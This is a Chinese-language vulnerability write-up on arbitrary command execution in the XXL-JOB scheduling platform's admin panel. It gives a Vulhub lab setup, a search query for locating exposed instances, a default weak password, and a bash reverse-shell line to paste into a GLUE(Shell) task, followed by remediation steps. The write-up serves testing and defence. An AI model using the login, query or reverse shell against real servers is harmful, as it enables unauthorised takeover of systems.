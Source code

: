 # XXL-JOB 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

若 XXL-JOB 后台管理页面存在弱口令，攻击者可在 GLUE 模式任务代码中写入攻击代码并推送到执行器执行，从而获取服务器权限。

参考链接：

- https://github.com/xuxueli/xxl-job/issues/2979
- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g

## 漏洞影响

```
XXL-JOB
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 admin:
   image: vulhub/xxl-job:2.2.0-admin
   depends_on:
    - db
   ports:
    - "8080:8080"
 executor:
   image: vulhub/xxl-job:2.2.0-executor
   depends_on:
    - admin
   ports:
    - "9999:9999"
 db:
   image: mysql:5.7
   environment:
    - MYSQL_ROOT_PASSWORD=root
```

Vulhub 执行如下命令启动 2.2.0 版本的 XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端登录页面，访问 `http://your-ip:9999` 可以查看到客户端（executor）。

![](images/XXL-JOB%20后台任意命令执行漏洞/image-20241112143143932.png)

## 漏洞复现

弱口令 `admin/123456` 登录后台，新增一个 GLUE 模式任务：

```
运行模式 GLUE(Shell)
```

![](images/XXL-JOB%20后台任意命令执行漏洞/image-20241112144436276.png)

点击 GLUE IDE，编辑脚本：

![](images/XXL-JOB%20后台任意命令执行漏洞/image-20241112144511969.png)

![](images/XXL-JOB%20后台任意命令执行漏洞/image-20241112144257939.png)

点击执行一次，探测是否出网：

![](images/XXL-JOB%20后台任意命令执行漏洞/image-20241112144713820.png)

再次点击 GLUE IDE，编辑脚本反弹 shell：

```plain
#!/bin/bash
bash -i >& /dev/tcp/your-ip/8888 0>&1 
```

![](images/XXL-JOB%20后台任意命令执行漏洞/image-20241112145109853.png)

## 漏洞修复

1. 开启 XXL-JOB 自带的鉴权组件：官方文档中搜索 “xxl.job.accessToken” ，按照文档说明启用即可。
2. 端口防护：及时更换默认的执行器端口，不建议直接将默认的 9999 端口开放到公网。
3. 端口访问限制：通过配置安全组限制只允许指定 IP 才能访问执行器 9999 端口。
